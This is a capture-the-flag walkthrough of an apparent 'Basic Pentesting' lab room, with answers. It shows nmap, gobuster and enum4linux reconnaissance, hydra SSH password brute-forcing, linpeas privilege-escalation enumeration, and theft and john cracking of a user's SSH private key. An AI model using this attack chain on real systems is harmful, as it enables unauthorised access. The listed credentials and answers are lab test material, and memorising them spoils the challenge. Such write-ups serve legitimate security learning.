 # basic pentesting

ip : 10.10.85.182

# Experiments :

1.  found open ports with `sudo nmap -A -Pn -T4 <ip>` : `22,80,139,445,8009,8080`
    
    ```
    PORT     STATE SERVICE     VERSION
    22/tcp   open  ssh         OpenSSH 7.2p2 Ubuntu 4ubuntu2.4 (Ubuntu Linux; protocol 2.0)
    | ssh-hostkey: 
    |   2048 db:45:cb:be:4a:8b:71:f8:e9:31:42:ae:ff:f8:45:e4 (RSA)
    |   256 09:b9:b9:1c:e0:bf:0e:1c:6f:7f:fe:8e:5f:20:1b:ce (ECDSA)
    |_  256 a5:68:2b:22:5f:98:4a:62:21:3d:a2:e2:c5:a9:f7:c2 (ED25519)
    80/tcp   open  http        Apache httpd 2.4.18 ((Ubuntu))
    |_http-server-header: Apache/2.4.18 (Ubuntu)
    |_http-title: Site doesn't have a title (text/html).
    139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
    445/tcp  open  netbios-ssn Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)
    8009/tcp open  ajp13       Apache Jserv (Protocol v1.3)
    | ajp-methods: 
    |_  Supported methods: GET HEAD POST OPTIONS
    8080/tcp open  http        Apache Tomcat 9.0.7
    |_http-favicon: Apache Tomcat
    |_http-title: Apache Tomcat/9.0.7

    ```

2.  found dir using gobuster : ip:80/development
    `sudo gobuster dir -u http://<ip>:80 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 20 -o gobuster.txt`
    
3.  scanned with `enum4linux -a <ip>` and found two users "jan" and "kay" for Samba Server 4.3.11-Ubuntu(running on port `445`)

4.  bruteforcing password with hydra on SSH and found password for jan:`armando`
    `hydra -l jan -P /usr/share/wordlists/rockyou.txt ssh://10.10.85.182`

5.  bruteforcing password with hydra on SSH and found no password for kay
    `hydra -l kay -P /usr/share/wordlists/rockyou.txt ssh://10.10.85.182`
    
6.  copied (scp) linpeas.sh(https://raw.githubusercontent.com/carlospolop/privilege-escalation-awesome-scripts-suite/master/linPEAS/linpeas.sh) to target in `/dev/shm` ran it for privrlrdge escalation

7.  found `id_rsa` (private key) for `kay` and copied it.

6. `id_rsa` was passphrase protected so use `john` to crack it
    
    ```
    ~/john/run/ssh2john.py kay_id_rsa > john-kay_id_rsa 
    
    john john-kay_id_rsa --wordlist=/usr/share/wordlists/rockyou.txt | tee kay_john
    
    ```

    found passphrase `beeswax` 

8.  ssh to kay@<ip>

10. found pass.bak in kay's home directory which is the last bit we need to complete the room. [cat and paste]


# Challenges Ans

1.  Deploy the machine and connect to our network [openvpn]

2.  Find the services exposed by the machine [nmap]

3.  What is the name of the hidden directory on the web server(enter name without /)? [gobuster]
    
    ```
    /development (Status: 301)
    /server-status (Status: 403)

    ```
4. User brute-forcing to find the username & password [enum4linux-usernames, hydra-passwd]

5.  What is the username? - jan

6.  What is the password? - armando

7.  What service do you use to access the server(answer in abbreviation in all caps)? - SSH

8.  Enumerate the machine to find any vectors for privilege escalation. [linpeas](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS)

9.  What is the name of the other user you found(all lower case)? - kay

10. If you have found another user, what can you do with this information?

11. What is the final password you obtain? - heresareallystrongpasswordthatfollowsthepasswordpolicy$$
